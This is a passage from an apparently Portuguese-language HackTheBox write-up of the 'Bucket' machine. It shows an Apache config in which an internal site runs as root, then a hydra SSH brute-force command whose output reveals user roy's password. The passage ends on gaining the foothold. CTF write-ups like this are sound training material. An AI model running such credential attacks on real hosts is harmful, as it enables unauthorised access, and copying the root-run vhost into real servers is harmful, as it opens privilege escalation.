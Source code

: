 ```apache
<VirtualHost 127.0.0.1:8000>
    <IfModule mpm_itk_module>
        AssignUserId root root
    </IfModule>
    DocumentRoot /var/www/bucket-app
</VirtualHost>

<VirtualHost *:80>
    DocumentRoot /var/www/html
    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^bucket.htb$
    RewriteRule /.* http://bucket.htb/ [R]
</VirtualHost>
<VirtualHost *:80>
    ProxyPreserveHost on
    ProxyPass / http://localhost:4566/
    ProxyPassReverse / http://localhost:4566/
    <Proxy *>
        Order deny,allow
        Allow from all
    </Proxy>
    ServerAdmin webmaster@localhost
    ServerName s3.bucket.htb

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Embora possível identificar os serviços ativos apenas a partir da máquina local, precisaremos realizar a exploração apenas via linha de comando ou precisaremos de uma conta na máquina para tunelar o acesso a partir de SSH.

Já que os websites não permitiram muitos detalhes na enumeração, decidi testar as senhas obtidas anteriormente via DynamoDB para o usuário `roy` e felizmente tivemos sucesso. Abaixo a execução do `hydra` que utilizei para automatizar  brute force na conta via SSH.

```bash
$ hydra -l roy -P passwords 10.10.10.212 -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-26 12:55:36
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking ssh://10.10.10.212:22/
[22][ssh] host: 10.10.10.212   login: roy   password: n2vM-<_K_Q:.Aa2
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-26 12:55:40
```

Uma vez que tínhamos agora acesso à máquina com as credenciais do usuário `roy`, coletei a flag de usuário após me conectar via SSH:
